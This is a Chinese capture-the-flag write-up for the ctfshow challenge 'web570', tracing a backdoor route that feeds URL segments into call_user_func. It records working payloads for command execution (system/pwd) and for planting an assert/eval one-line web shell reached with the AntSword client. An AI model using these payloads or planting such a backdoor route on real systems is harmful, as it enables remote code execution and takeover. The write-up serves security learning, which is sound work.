

# web570
下载附件,在phpstrom里打开审查
tips:

路由定义
路由规则的定义格式为： ‘路由表达式’=>’路由地址和传入参数’

或者：array(‘路由表达式’,’路由地址’,’传入参数’)

发现可以的地方,应该就是后门了,思索该如何链接后门
call_user_func将后者作为参数传入前者(函数)
思索一会,思路:既然是路由则需要触发
应该需要访问ctfshow,该路由意思是ctfshow/payload$f/paload\$a
```
/index.php/ctfshow/system()/pwd
```
不行,看了下wp,call_user_func感觉不太会使,原来直接跟函数名就行了
使用:
```
<?php
echo call_user_func('system','whoami');
```
修改paylaod:
```
index.php/ctfshow/system/pwd
```
一个一个,目录查找太慢,准备一句话链接
payload:
```
/index.php/ctfshow/eval/eval($_POST['cmd'])
```
还是不行,看了下用的都是是assert改了下payload
```
/index.php/ctfshow/assert/assert($_POST['cmd'])//可以接受参数,但无法蚁剑连接
```
```
index.php/ctfshow/assert/eval($_POST['cmd'])
```
再用蚁剑连接就可以了(记得换为http)
结果发现只有assert在外包裹eval或assert时才能执行
但是一件链接只能用assert包裹eval
查找问题,文章[14704975.html](https://www.cnblogs.com/Article-kelp/p/14704975.html)